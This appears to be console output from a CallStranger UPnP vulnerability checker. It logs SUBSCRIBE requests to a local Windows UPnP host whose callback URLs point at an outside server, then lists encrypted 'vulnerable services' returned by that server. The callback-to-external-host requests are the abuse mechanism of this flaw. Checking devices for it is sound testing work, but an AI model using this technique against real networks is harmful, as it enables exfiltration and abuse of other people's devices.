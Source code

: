     Calling stranger for  http://192.168.1.24:2869/upnphost/udhisapi.dll?event=uuid:e4d56268-9801-43d2-b1cf-0dbf71d3c06c+urn:upnp-org:serviceId:RenderingControl with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNXMZtJ2FXZUd6l9fPF4W6zyJ-jSIV7-YnsOAuS_3P8Qg_J59XfUp5l5SFUFzL5d_SyCFtTENW2sMrQZjGt5ZGZBMjmZfnNjNfmwpJwN9ZjKK_NCy4NRV69ipJG3E5evaeEbg4cOh2iwM_eCMyMdPzYD4MNBKaDFHG3QTUpPItjGdX169O3A77VaLH61OV0QSFmUcYro7yYCGRrj1B3G6Gl9vHPXUxfVZN5GqhgW2sHvZmTZUs7UKLVgzoEaS2Oy6h&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.24:2869/upnphost/udhisapi.dll?event=uuid:e4d56268-9801-43d2-b1cf-0dbf71d3c06c+urn:upnp-org:serviceId:RenderingControl seems successfull
    {'Server': 'Microsoft-Windows/10.0 UPnP/1.0 UPnP-Device-Host/1.0 Microsoft-HTTPAPI/2.0', 'Timeout': 'Second-300', 'SID': 'uuid:2c36537d-018d-4ea9-ae60-83063198d187', 'Date': 'Mon, 08 Jun 2020 07:15:24 GMT', 'Content-Length': '0'}
    
    Calling stranger for  http://192.168.1.24:2869/upnphost/udhisapi.dll?event=uuid:e4d56268-9801-43d2-b1cf-0dbf71d3c06c+urn:upnp-org:serviceId:AVTransport with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNdiaamddL1mXEEsXlJQRwPTTyy1vsWMFfYS02X8or9Rk8oS_nQPzDJzDYhn2UrwRgdW1evZRz-lYAmFqZnyb6R6JH0kFpd5Ds36KpFssmKRwTUBaRv3LjYl5SDt7r4Q1TCeGuKRHAPOQ3nKv5xovNNtNz38k-escgkwW9oRBPQAFnLZxQPwh3eb8bfLUl_1nxwZsdPKfB8Fp_wOjNezjXql9ljwtkzMy2Rzas9D9T9AoydyV_I60qyjJVNHy4As6T&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.24:2869/upnphost/udhisapi.dll?event=uuid:e4d56268-9801-43d2-b1cf-0dbf71d3c06c+urn:upnp-org:serviceId:AVTransport seems successfull
    {'Server': 'Microsoft-Windows/10.0 UPnP/1.0 UPnP-Device-Host/1.0 Microsoft-HTTPAPI/2.0', 'Timeout': 'Second-300', 'SID': 'uuid:ad2d70f1-39c9-4a6c-83f8-a435ba8dbe51', 'Date': 'Mon, 08 Jun 2020 07:15:24 GMT', 'Content-Length': '0'}
    
    Calling stranger for  http://192.168.1.24:2869/upnphost/udhisapi.dll?event=uuid:e4d56268-9801-43d2-b1cf-0dbf71d3c06c+urn:upnp-org:serviceId:ConnectionManager with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNSafCBN8pkwe2BMPrzwV1SzOUWciHVwYbPyTt1tut-PEkaQ2oDjS0yz0hd0t02pD35_DIkHhV_XRaGq5KMMdo6nnJ5sFjvhQ0uAilJF-4doO7DdWww7YNyZdo4258jmLQ2YRLSXodwQJXUlvVJN3pJIe4e9m9MjCbT214I61Ue14euKxx470mSpvpZCnVeQYnnUoS8SKkXibFVmJ-qpW4Ep3x8Xbb34GnSXe01OJpvf39uYZGsuKz0paeVgJTbnLl&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.24:2869/upnphost/udhisapi.dll?event=uuid:e4d56268-9801-43d2-b1cf-0dbf71d3c06c+urn:upnp-org:serviceId:ConnectionManager seems successfull
    {'Server': 'Microsoft-Windows/10.0 UPnP/1.0 UPnP-Device-Host/1.0 Microsoft-HTTPAPI/2.0', 'Timeout': 'Second-300', 'SID': 'uuid:51865133-d912-4c0c-9447-9615ef57f2e2', 'Date': 'Mon, 08 Jun 2020 07:15:24 GMT', 'Content-Length': '0'}
    
    
            Waiting 5 second for asynchronous request
    Successfully get services from server: http://20.42.105.45:80/CallStranger.php?c=getservices&token=nae9lqq3keg79l3qei9ahohvqe
    
    Encrypted vulnerable services:
    gAAAAABe3eWNny3BDg9OPz7WaHI8MiJpkALTuYhq7nY6l4raSduMcqumRKn4UlCXYs3sU9MgDhSi8-WtjR_X45asVQ3-r5fZ4ky6LR0WiG4BhqUTwmkf2615sCC3G4ZSfRGYq-G5qWVX
    gAAAAABe3eWNKQTdXOAlJaFdcir5kgI_v9PxZnpeWD-9IS6U2TqMM2aL1a4gg-JTL3CT5K8ZWAUBbEePDGqzqv7iiDzk41AMEiXILhED7lGiJ6wOO3LMSXNhamdQ37BLa8AoWmUuDGBxe-AEss0TC-QY8g7I67M68Q==
    gAAAAABe3eWNw-5CaKWtBdFlWBV6PQtV4Q8koFEr9nKRbAOAm-_f035IQl9uUNY6MdrneLHLi_tBKJ37i5OOLiBsOYADTUpYtsFWApBe3NPCQgJDh5omi2mmClmPiVCPdjUNu7-TYmiK
    gAAAAABe3eWNtLC8GIuICPflEhBEu8nFgxe12U0nnrJ_ewbmVwlrtu0yEqC6rWp3CuUgYdHSYalFv8dG5ETCsQBnx6PVdHbSzk6EGpYBwo8nvdXqJtdnvnjeveUz9Q4bhwZ4qDKKmiQb
    gAAAAABe3eWNJJsfohjZJRLZdiBF4Kvt1amVenr9a1Zi3oHhu_Xfomk_li6uJ9l0OeR6YVh2d6qbCF-t1uAmMVJfs5Tu7FWiNg15UXhyF8ubI_YZxtXTC4zpxHt7r2MdISJ8WwOFQ_J-f6E5yV6Bv8c4A1BBqfuD2Q==
    gAAAAABe3eWN0JCuymqONPp3Sbu9E_TUiUmXTZ5s777Hm2WsV7CO40kqjYGLoibSPew4uBpjel6Y_pOKPQOf3PsZwKG-PIC0G5jJiqEHmwRFI-Bd6ftBUIltwYGTtiBYII1QHfQ2c7mp
    gAAAAABe3eWNsB6Kv35geEsxbkkrAgED5So1wLhWURjcFwkyJ9h7w21BtUmbBmzAQ_YTgN-168MatiFy-skmKyTcleLkVKn5iv6xhEcY5DGiH_MJbeeZ77_AmgM_UF4dqqXsIdHJmROk
    gAAAAABe3eWNZwdAHuBpKwJw6L4vBT59oY3xnIU5iS85Gkmp8Ajo1p7gQx3FmvvyeWdNvX0vNhJ5ZDYLqJNp_Sct_F6xzJFlHSFe2nj4EvtiPL-GbHfBlHsthplZFfczbyXoqFxgwOlw
    gAAAAABe3eWNlKb5TTOnwnyQPA3au856DTuiCwyYdtGcCpSYHFNCBJ4j1Tr-1HbnLV59m9kHppA6GYRZpECoT-2s7MAwIpjvcllbbCdc0ORHoA40jDBwzdqECjLPCZnM1GncnOgfSFvfTYnbOMbnbYlY825Oi0f_ZA==
    gAAAAABe3eWNBpQ_jvIj1auFPntVMxiNgqCAMMLd4m960P-5nA87VRRR-cCDjUthjQ1BaiXYGw9lJ2QS6u6Iq1jl_ugpE8ef7hoeuK9oT33wDIjm9cST_xj4IYW_S2SddtSsHhIwtkMX
    gAAAAABe3eWNk6hSWo8XmOpY-kvAsWA4ztVyP71dJy0Pit2GWl9lH5u7CiU8selzo2uSXmRczZYz2MMwbF45En3rkfmhk5JkRHRQOpytn1GhDClqevh-S6UBAiDiRvcnBFRhAyb-C6mjvOCbjpZ1amIaQs5wxPFH9OSCT6aeIp5BRPeCLbk0XsbExDvq7Kilmf0X-CeoJxwrOlzhEFt3aA9UbzrP5WKq_6KAVtxk_rDMemINYtBsjMwyAwSFIr2duohzAsL7pe-f